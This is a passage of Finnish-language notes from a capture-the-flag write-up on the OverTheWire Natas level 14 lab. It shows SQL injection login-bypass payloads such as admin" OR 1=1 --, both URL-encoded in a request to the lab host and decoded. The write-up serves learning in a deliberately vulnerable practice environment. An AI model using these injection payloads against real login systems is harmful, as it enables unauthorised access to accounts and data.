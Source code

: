 **TESTI9** ja nyt päästiin, mutta jälkimmäisessä _TESTI10_ on tarkennusta vähäsen
![alt text](./kuvat-level11-15/natas14-13.png)

Tämä enkoodattu (URL) 
`username=admin%22%20OR%201%3D1%20--&password=admin'` 
vastaa --> 
dekoodattua (alempi formaatti): 
```
username=admin" OR 1=1 --
password=admin
```

Pientä tarkennusta koskien miten tämä toimikaan (vscode muistiinpanoa) ja tämä **testi9**: 
`http://natas14.natas.labs.overthewire.org/index.php?debug=1&&username=admin%22%27%20OR%201%3D1%20--&&password=admin%27%20OR%201%3D1%20--%22`

dekodaattu menisi näin: 
```
username = admin"' OR 1=1 --
password = admin' OR 1=1 --"
```

<br>

**TESTI10** ,  tämä on sama idea kuin _testi9_ , mutta mentiin lomakkeen formaattin kautta kirjauttumisen prosessilla. Molemmat ovat samoja sisältöjä, mutta eri kuljetusmuoto. 

Alemman pieni toisto:
```
admin"' OR 1=1 --
password' OR 1=1 --"
```

![alt text](./kuvat-level11-15/natas14-14.png)
